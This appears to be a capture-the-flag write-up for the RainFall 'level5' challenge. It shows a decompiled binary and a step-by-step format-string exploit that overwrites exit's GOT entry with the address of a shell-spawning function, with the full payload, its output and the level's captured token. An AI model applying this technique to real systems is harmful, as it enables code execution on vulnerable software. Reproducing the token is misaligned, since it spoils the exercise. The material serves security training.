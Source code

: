 fonction o() qui /bin/sh 

gdb ./level5
info address o = adresse de la fonction.

level5@RainFall:~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 

08049838 R_386_JUMP_SLOT   exit


08049838 adresse GOT de Exit

But: ecrire a l'emplacement de l'adresse exit **0x8049838** l'adresse de o() **0x80484a4** afin que l'appel exit nous redirige vers o()

(echo -e "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"; cat) | ./level5



# level05

1. Decompilation with Ghidra

    the binary contains :
    ```c
    void main(void)

    {
    n();
    return;
    }
    ```
    ```c
    void n(void)
    {
    char local_20c [520];
    
    fgets(local_20c,0x200,stdin);
    printf(local_20c);
                        /* WARNING: Subroutine does not return */
    exit(1);
    }
    ```

    ```c
    void o(void)
    {
    system("/bin/sh");
                        /* WARNING: Subroutine does not return */
    _exit(1);
    }
    ```

2. Analysis of the vulnerability

    The vulnerability:
    - The function o() allows invoking /bin/sh.
    - The exit() call.

3. Finding the GOT address to exit() and address to o()

    Using gdb to find the o() address:

    ```bash
    gdb ./level5

    (gdb) info address o
    Symbol "o" is at 0x80484a4 in a file compiled without debugging.
    ```

    But, for exit() we need GOT address (Global Offset Table).

    ```bash
    objdump -R level5
    [...]
    08049838 R_386_JUMP_SLOT   exit
    [...]
    ```

4. Finding the format string offset

    Test to find where our input appears on the stack:

    ```bash
    python -c 'print "AAAA" + "%x."*5' | ./level5

    # Output: AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825.
    ```

    We see `41414141` (AAAA in hex) at the **4th position**.

6. Exploitation

    Format String Payload Breakdown

    **%2044x = Prints 2044 padding characters**

    - Goal: Reach 2052 in byte counter (2044 + 8 bytes from addresses)

    - 2052 = 0x0804 (high part of o()'s address)

    **%31904x = Prints 31904 padding characters**

    - Goal: Reach 33956 in byte counter (2052 + 31904)

    - 33956 = 0x84a4 (low part of o()'s address)

    **%4\$hn = Writes 2-byte counter to address at offset 4**

    - Offset 4 = 0x0804983a (GOT exit + 2)

    - Writes 0x0804

    **%5\$hn = Writes 2-byte counter to address at offset 5**

    - Offset 5 = 0x08049838 (GOT exit)

    - Writes 0x84a4

    ***Final result: GOT exit contains 0x080484a4 = address of o()***

    ```bash
    (echo -e "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"; cat) | ./level5

    whoami
    # Output : level6
    ```

7. Token discovered

    The token is: `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
